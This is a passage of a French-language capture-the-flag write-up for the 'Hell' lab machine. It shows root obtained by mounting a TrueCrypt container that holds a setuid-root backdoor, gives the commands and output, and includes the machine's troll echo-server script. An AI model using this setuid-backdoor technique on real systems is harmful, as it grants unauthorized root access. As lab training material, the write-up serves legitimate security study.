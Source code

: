 Beating Hell
------------

*Truecrypt* permet de monter des volumes chiffrés sur le système. On est donc dans le cadre d'une faille de type montage de dossier avec permissions... permissives :p  

Comme *Truecrypt* n'est pas dans les dépôts *openSUSE* et que sa version rebadgée (*Realcrypt*) n'est pas sur un dépôt officiel j'ai choisi de lancer un *Kali Linux* dans une VM le temps de créer un conteneur *Truecrypt*.  

Le principe est simple : on créé un petit container (10M) montable sous Unix avec système de fichier *ext2* (important car il doit supporter les permissions Unix). Dedans on place une backdoor setuid root puis on démonte le conteneur pour le recopier sur le système du CTF.  

Après on le monte depuis *Hell* et on lance la backdoor :  

```plain
george@hell:~$ truecrypt /tmp/crypted.tc /media/truecrypt1
Enter password for /tmp/crypted.tc: 
Enter keyfile [none]: 
Protect hidden volume (if any)? (y=Yes/n=No) [No]: 
george@hell:~$ /media/truecrypt1/getroot 
root@hell:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(george)
root@hell:~# cat /root/flag.txt 
Congratulations of beating Hell. 

I hope you enjoyed it and there weren't to many trolls in here for you. 

Hit me up on irc.freenode.net in #vulnhub with your thoughts (Peleus) or follow me on twitter @0x42424242

Flag: a95fc0742092c50579afae5965a9787c54f1c641663def1697f394350d03e5a53420635c54fffc47476980343ab99951018fa6f71f030b9986c8ecbfc3a3d5de
```

Trolololololol
--------------

Parlons de trolls poilus justement ! Le système utilisé pour le CTF est une Debian 7.5 32bits. Dès lors comment se fait-il que *echoserver.bak* était en 64bits ?  

Voici le contenu de */root/echoserver.py* :  

```python
#!/usr/bin/python
# Trololol lol lol lol lol
import socket
import thread
import random
import sys

def EchoClientHandler(clientSocket, addr) :
        clientSocket.send("\nWelcome to the Admin Panel\n")
        clientSocket.send("Archiving latest version on webserver (echoserver.bak)...\n")
        clientSocket.send("Starting echo server and monitoring...\n")
        while 1:
                trollpoint = random.randint(1,17)
                client_data  = clientSocket.recv(2048)
                if client_data:
                        if len(client_data) > 1000:
                                clientSocket.send("Segmentation fault")
                                sys.exit(0)
                        else :
                                clientSocket.send(client_data)
                else :
                        clientSocket.close()
```
